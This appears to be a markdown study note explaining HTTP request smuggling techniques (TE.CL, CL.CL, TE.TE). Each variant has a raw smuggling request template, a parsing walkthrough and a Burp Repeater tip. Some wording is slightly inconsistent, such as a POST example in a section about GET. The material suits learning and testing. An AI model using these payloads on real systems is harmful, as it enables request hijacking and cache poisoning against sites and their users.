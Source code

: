 ## TE.CL
* The front-end server uses the `Transfer-Encoding` header and the back-end uses the `Content-Length`
```HTTP
POST / HTTP/1.1
Host: Test.com
Content-Length: 4
Transfer-Encoding: chunked

1a
Smuggled Request
0
```
1. The front-end uses the `Transfer-encoding` and handles the body using chunk encoding 
	1. It reads the first chunk which is given a length of `1a` or 26.
	2. The second chunk it processes is 0 which is the end of the message
2. The back-end uses the `Content-Length` header and determines the message to be 4 bytes long *(This includes `/n`)*. This takes it up to the start of the smuggled request. 
3. The smuggled request sits in the queue
```
To Do this in Burp you need to go to the repeater menu and ensure `Update Content-Length` is unchecked.
You need to include the trailing sequce of \r\n\r\n following the final 0 as per the HTTP spec
```
## CL.CL
* Double `Content-Length` attack relies on poorly coded middle-ware such as proxies or load-balancers, which loosely handle `GET` requests with a body. The `GET` method shouldn't have a body, this may leader to weird behaviour.
```HTTP
POST / HTTP/1.1
Host: Test.com
Content-Length: 31
Content-Length: 0

Smuggled Request
```
1. The front-end reads the first content-length and processes the rest of the message
2. The back-end, if designed to only expect `GET` requests without a body may reject the first `Content-Length` and process the second `Content-Length` header as 0
```
To Do this in Burp you need to go to the repeater menu and ensure `Update Content-Length` is unchecked.
You need to include the trailing sequce of \r\n\r\n following the final 0 as per the HTTP spec
```
## TE.TE
* The front-end and back-end both support (and prioritise) the `Transfer-Encoding` header. 
* Typically this involves a small departure from the HTTP specification.
```HTTP
POST / HTTP/1.1
Host: Test.com
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: cow

1a
Smuggled Request
0
```
1. Submit a request with 2 `Transfer-Encoded` headers. One with n obfuscated name and one with a non-existent `Transfer-Encoded` type with an invalid `Content-Length` header. 
2. The goal is to get one server to accept the obfuscated name, and the other server ignore it, and read the header with the non-existent `Transfer-Encoding` type. 